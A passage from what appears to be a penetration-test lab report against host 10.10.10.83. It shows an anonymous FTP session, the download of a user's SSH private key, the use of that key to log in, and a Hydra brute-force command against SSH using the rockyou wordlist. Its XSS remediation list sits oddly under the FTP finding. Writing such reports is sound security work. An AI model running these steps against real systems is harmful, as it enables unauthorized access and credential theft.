     
    `ftp 10.10.10.83 Name: anonymous Password: (none)
    Connected to 10.10.10.83.
	220 (vsFTPd 3.0.5)
	Name (10.10.10.83:kali): anonymous
	331 Please specify the password.
	Password: 
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> ls
	229 Entering Extended Passive Mode (|||21104|)
	150 Here comes the directory listing.

    
- Navigated to /alice/files and downloaded an id_rsa SSH private key:
    
	    ftp> cd alice
	250 Directory successfully changed.
	ftp> ls
	229 Entering Extended Passive Mode (|||21101|)
	150 Here comes the directory listing.
	drwxr-xr-x    1 ftp      ftp          4096 Aug 28 15:07 files
	226 Directory send OK.
	ftp> 

    
    ![Pasted image 20250403121639.png](Pasted%20image%2020250403121639.png)

	![Pasted image 20250403121910.png](Pasted%20image%2020250403121910.png)
- Attempted SSH: ssh -i id_rsa alice@10.10.10.83
- Fixed permissions: chmod 600 id_rsa to resolve "bad permissions" error.

#### 3.4.2 Remediation Plan

- ✅ Filter and escape user inputs (htmlspecialchars()).
- ✅ Enable Content Security Policy (CSP).
- ✅ Restrict cookies (HttpOnly, Secure).

---

### 3.5 SSH Vulnerability (Unsecured Access)

- **Location**: ssh 10.10.10.83 (port 22 open)
- **Tools**: SSH service
- **Impact**: Access sensitive information

#### 3.5.1 Details

- Brute-forced john’s password using:
    
    bash
    
    RéduireEnvelopperCopier
    
    `hydra -l john -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.83 -V`
    